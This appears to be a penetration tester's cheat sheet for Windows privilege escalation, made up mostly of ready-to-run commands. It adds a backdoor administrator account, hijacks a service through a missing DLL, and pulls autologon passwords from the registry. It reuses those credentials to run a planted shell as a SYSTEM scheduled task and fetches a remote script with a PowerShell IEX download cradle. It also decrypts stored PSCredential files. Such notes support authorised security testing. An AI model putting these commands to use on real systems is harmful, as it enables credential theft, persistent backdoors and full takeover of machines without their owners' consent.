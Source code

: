 # windows-privilege-escalation

## background shell

```bash
START /B FILE
Start-Process -NoNewWindow -FilePath FILE -ArgumentList "ARGS" [-Credential $creds]
```

## Create User

```bash
# add new user
net user kashz iamR00t#123 /add
net localgroup administrators kashz /add
```

## DLL hijacking

**NOTE:** needs RDP-access

```bash
# required library files which could be missing; specified with relative paths; absolute paths which could be writable.
> Run Procmon64.exe; filter to service in question; deselect registry activity and network activity
> net start <service>
# see which DLL files are missing and exploit
```

## RunAs | Creds reuse using PS

```bash
# runAs
> C:\Windows\System32\runas.exe /savecred /user:DOMAIN\USER "COMMAND"
> C:\Windows\System32\runas.exe /env /noprofile /user:USER PASSWORD "COMMAND"

# using PS
PS> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName
PS> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword

# once we have the autologon pass
# run shell using saved cred
PS> $username = "kashz"
PS> $password = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential($username, $password)

# run shell as scheduled task
PS> Invoke-Command -Computer HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn kshell /tr "C:\Users\Public\kashz.exe" /ru SYSTEM } -Credential $creds
PS> Invoke-Command -Computer HOSTNAME -ScriptBlock { schtasks /run /tn kshell } -Credential $creds

# run shell
PS> Start-Process "C:\Users\Public\kashz.exe" -Credential $creds
PS> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('/shell.ps1')" -Credential $creds
```

## Decrypt PSCredential

```bash
# need to be the user who encrypted the data
PS> $UserCred = Import-Clixml -Path <ENCRYPTED-DATA.txt>
| ERROR: Error occurred during a cryptographic operation. => not the right user.
PS>  $UserCred.GetNetworkCredential().password

PS> $user = "USER"
PS> $pass = "ENCRYPTED-DATA" | convertto-securestring
PS> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)
PS> $cred.GetNetworkCredential() | fl
```

## Reference

* [travisgan.com/powershell-password-encryption.html](https://www.travisgan.com/2015/06/powershell-password-encryption.html)
